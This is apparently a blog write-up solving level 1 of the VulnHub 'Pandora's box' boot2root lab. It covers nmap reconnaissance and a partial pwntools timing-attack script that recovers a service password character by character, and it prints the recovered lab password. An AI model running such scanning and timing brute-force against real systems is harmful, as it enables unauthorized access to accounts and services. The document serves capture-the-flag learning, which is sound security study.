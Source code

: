 ### Pandoras box Level *1* of *5*



![](https://www.vulnhub.com/media/img/entry/watermarked/2c242db3c7efd1c6a0c07c3fdc4a4fc15319ed95.png)

---

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link](https://www.vulnhub.com/entry/pandoras-box-1,111/) booting up the ova file in to VM ware player we have

![](https://cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<p><h5>That eureker moment!!!</h5></p>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
#script incomplete
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)

		if first:
			min_diff = ttt
			first = False

		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
	
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

- The script sets the IP address `(ip)` and port number `(port)` for the remote server.
- The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
- The script establishes a connection to the remote server using `p = remote(ip, port)`.
- The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
- The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
- The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
- After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
- If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
- The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

![](https://cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif)

<p><h5>Running the script</h5></p>

This the final password:

![](https://cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
